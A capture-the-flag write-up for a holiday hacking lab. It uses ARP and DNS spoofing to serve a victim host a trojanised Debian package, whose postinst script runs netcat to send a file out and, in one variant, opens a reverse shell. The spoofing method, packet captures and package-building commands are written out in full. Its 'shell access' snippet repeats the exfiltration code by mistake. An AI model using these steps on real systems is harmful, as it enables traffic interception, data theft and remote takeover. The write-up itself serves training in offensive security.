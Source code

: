 # Objective 9: ARP Shenanigans
Location: NetWars

The objective is to get hold of the file `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` on a remote host using ARP  and DNS spoofing. This document holds the information who recused herself from a vote.

Exercise setup:
||Local Host|Remote Host  |Spoofed Host|
|--|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 ||
|IP| 10.6.0.2 | 10.6.6.35 |10.6.6.53|

A [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/spoof.py) was prepared to spoof ARP replies for the spoofed host redirecting the traffic to the local host.
Furthermore this script spoofs DNS replies for queries sent to the spoofed host and does always return A records pointing to it's own local IP address.
The script takes the IP address of the spoofed host as argument, so here is has to be called with `./spoof.py 10.6.6.53`.

Capture of ARP and DNS spoofing with following HTTP request:
```
17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0
```

A Node.js HTTP server was started from the home directory using  `python3 -m http.server 80` and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the local host the Debian package `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` was found.
This package was modified to include a netcat command in the postinst script to send the text file to our local host:

`/bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`

By opting for 
`/bin/nc 10.6.0.2 4444 -e /bin/bash`
an interactive reverse shell can be acquired.

The snippet below automatically inserts the correct IP address of the local host and places the package in the right location of the web tree.

**Obtaining just the file**
```
cd ~/debs
mkdir tmp
dpkg-deb -R netcat-traditional_1.10-41.1ubuntu1_amd64.deb tmp
echo /bin/nc `ifconfig eth0 | grep 'inet ' | awk '{print $2}'`' 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt' >> tmp/DEBIAN/postinst
mkdir -p ../pub/jfrost/backdoor
dpkg-deb -b tmp ../pub/jfrost/backdoor/suriv_amd64.deb

```
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt) 

In this file it can be found that **Tanta Kringle** recused herself from the vote.

**Obtaining shell access**
```
cd ~/debs
mkdir tmp
dpkg-deb -R netcat-traditional_1.10-41.1ubuntu1_amd64.deb tmp
echo /bin/nc `ifconfig eth0 | grep 'inet ' | awk '{print $2}'`' 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt' >> tmp/DEBIAN/postinst
mkdir -p ../pub/jfrost/backdoor
dpkg-deb -b tmp ../pub/jfrost/backdoor/suriv_amd64.deb

```
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIwOTcyOTQ2MDgsMTE5NTQ4OTUxMSw3OT
czNDE5MjIsMjY4NjUzNDg0LDEyNzI2NTY0MTksODU4MTg4OTI5
LDEwOTI3ODUzMjEsLTIwNjI2NzUyOTcsLTYxMjg5Nzc5OSwtOD
UyNzIyNzAzLDE3NTgyNDM2NzcsMTYzNDM5NDk0MSwxMjA0NDI2
NTM5LC0xNzk4NDE1ODk2LC04NzgzOTIyMTYsNTE0MjA5MTU5XX
0=
-->
